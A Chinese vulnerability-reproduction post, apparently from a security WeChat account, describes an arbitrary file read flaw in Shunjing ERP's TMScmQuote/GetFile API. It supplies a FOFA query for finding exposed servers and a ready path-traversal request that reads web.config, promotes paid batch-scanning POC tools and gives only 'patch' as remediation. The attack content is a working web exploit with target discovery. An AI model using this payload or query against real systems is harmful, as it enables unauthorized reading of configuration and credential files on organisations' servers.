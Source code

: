 #  顺景ERP TMScmQuote/GetFile接口存在任意文件读取漏洞 附POC   
2025-3-17更新  南风漏洞复现文库   2025-03-17 22:51  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 顺景ERP 接口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
顺景ERP  
## 2.漏洞描述  
  
顺景ERP GetFile接口存在任意文件读取漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
顺景ERP  
  
![顺景ERP TMScmQuote/GetFile接口存在任意文件读取漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3ZzsuQSH9US0SaMzVHlpXVPyChGIT0JtrGPYkqK0VDWc2bXia0ibFHdavsUYT8zFBUPjPDibGVgxNPhA/640?wx_fmt=png&from=appmsg "null")  
  
顺景ERP TMScmQuote/GetFile接口存在任意文件读取漏洞  
## 4.fofa查询语句  
  
body="/api/DBRecord/getDBRecords"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/api/TMScmQuote/GetFile?FullGuidFileName=/../web.config&FileName=  
  
漏洞数据包：  
```
GET /api/TMScmQuote/GetFile?FullGuidFileName=/../web.config&FileName= HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZzsuQSH9US0SaMzVHlpXVPicLt1V58EmV32q01yiau1DKicGqkJTUmcDUfJHvpajmCIfcworE18PCKw/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
  
2: 免登录，免费fofa查询。  
  
3: 更新其他实用网络安全工具项目。  
  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZzsuQSH9US0SaMzVHlpXVPIwQZjAImnjB6elEib7htrGv9XeUIG1lM1icUOmpOuibAztnrce3sdUFCg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZzsuQSH9US0SaMzVHlpXVPp4CYicJD0VwDBOUDQguQLBJ5v9BTA9pPM8hHUxSib40FTEUCJUAIU8Zg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZzsuQSH9US0SaMzVHlpXVP1MSPiaOAu73SL5371Nqm1vKibL7LIicdDk7kSRpmn4pZ8RuYZSjkMibN2w/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZzsuQSH9US0SaMzVHlpXVPWKyzAPZuuro21nFPRgxbOjgNlG4zqiaoTZDkGZ20zaDYm9h2UiaM1rzg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZzsuQSH9US0SaMzVHlpXVPwrT0zB02dgYicORB85Zp5aTANRcfLP14hV9ymI6Q1DtqDfLSOjIj4UA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
  
